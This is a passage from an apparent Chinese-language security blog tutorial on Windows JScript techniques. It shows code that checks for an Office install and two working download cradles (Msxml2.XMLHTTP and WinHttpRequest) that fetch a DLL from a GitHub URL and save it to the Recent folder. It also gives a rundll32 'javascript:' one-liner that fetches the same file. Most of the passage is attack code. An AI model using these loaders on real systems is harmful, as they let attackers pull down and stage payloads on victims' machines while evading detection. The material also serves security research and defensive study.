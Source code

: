 ```
var FileSys = WScript.CreateObject("Scripting.FileSystemObject");   
if (FileSys.FolderExists("c:\\Program Files\\Microsoft Office"))   
{   
	WScript.Echo("[+] Find Microsoft Office.");   
}
else
{
	WScript.Echo("[!] I can't find Microsoft Office!");    
}
```


**2、从Github下载dll文件并保存至Recent目录**

**方式1:** 使用Msxml2.XMLHTTP

```
var sGet=new ActiveXObject("ADODB.Stream");
var xGet=null;
xGet=new ActiveXObject("Msxml2.XMLHTTP");
xGet.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",0);
xGet.Send();
sGet.Type=1;
sGet.Open();
sGet.Write(xGet.ResponseBody);
sGet.SaveToFile((WScript.CreateObject("WScript.Shell").SpecialFolders("Recent")+"\\calc.dll"),2);
```


**方式2:** 使用WinHttp.WinHttpRequest.5.1

```
h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",false);
h.Send();
s=new ActiveXObject("ADODB.Stream");
s.Type=1;
s.Open();
s.Write(h.ResponseBody);
x=new ActiveXObject("WScript.Shell").SpecialFolders("Recent")+"\\calc.dll";
s.SaveToFile(x，2);
```


两种js方式均可以，但是在rundll32下使用的话，需要使用方式2，原因如下：

不支持`WScript.CreateObject("WScript.Shell")`，需要换成`new%20ActiveXObject("WScript.Shell")`

cmd执行：

`rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";xGet=new%20ActiveXObject("Msxml2.XMLHTTP");xGet.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",0);xGet.Send();`

提示权限不够，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-20/2-2.png)
